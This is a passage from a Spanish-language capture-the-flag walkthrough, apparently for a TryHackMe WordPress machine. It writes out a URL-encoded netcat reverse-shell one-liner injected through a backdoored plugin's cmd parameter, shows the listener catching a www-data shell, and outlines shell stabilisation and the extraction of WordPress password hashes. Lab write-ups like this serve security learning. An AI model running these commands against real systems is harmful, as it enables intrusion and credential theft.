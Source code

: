 El comando codificado se utiliza junto con la backdoor RCE:

IP del atacante (Kali): 10.8.24.253

Puerto del Listener: 4444

Comando de shell (Codificado en URL):
````
rm%2Ftmp%2Ff%3Bmkfifo%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.8.24.253%204444%20%3E%2Ftmp%2Ff
````
3. Ejecución y Recepción de la Shell

El comando codificado se inyecta en la URL de la backdoor a través del parámetro cmd:
````
[http://smol.thm/wp-content/plugins/hello.php?cmd=rm%2Ftmp%2Ff%3Bmkfifo%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.8.24.253%204444%20%3E%2Ftmp%2Ff](http://smol.thm/wp-content/plugins/hello.php?cmd=rm%2Ftmp%2Ff%3Bmkfifo%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.8.24.253%204444%20%3E%2Ftmp%2Ff)
````
Tras ejecutar la petición en el navegador, el listener en Kali recibe la conexión.
````
$ nc -lvnp 4444
listening on [10.8.24.253] 4444
connect to [10.10.194.146] 38798
sh: 0: can't access tty; job control turned off
$ whoami
www-data
````
<img width="1334" height="857" alt="ejecuto el reveser y oibtengo shell" src="https://github.com/user-attachments/assets/e4d19b70-756e-4d41-a246-054b40a58361" />

Resultado: Se ha obtenido una reverse shell de baja integridad en la máquina objetivo, ejecutándose como el usuario del servidor web, www-data. Ahora podemos proceder con la enumeración y escalada de privilegios (Privilege Escalation).

## 🔒 Paso 8: Estabilización de la Shell y Extracción de Credenciales de WordPress

Una vez obtenida la *reverse shell* como el usuario `www-data`, el primer paso crucial es estabilizarla para permitir una mejor interacción (uso de flechas, comandos de edición, `clear`, etc.). El segundo paso natural es utilizar las credenciales de la base de datos ya descubiertas para acceder a la tabla de usuarios de WordPress y buscar otras credenciales valiosas.

### 📝 Objetivo
1.  Estabilizar la *reverse shell* para una mejor usabilidad.
2.  Conectarse a la base de datos MySQL de WordPress.
3.  Extraer los hashes de contraseñas de todos los usuarios de WordPress.

### 1. Estabilización de la Shell
Se utiliza Python para spawnear una *TTY shell* completa y luego se configura la variable `TERM` para una mejor emulación de terminal.

<img width="637" height="139" alt="estabilizo shell" src="https://github.com/user-attachments/assets/df5fda5e-d404-4809-bd37-22bcaf15b570" />
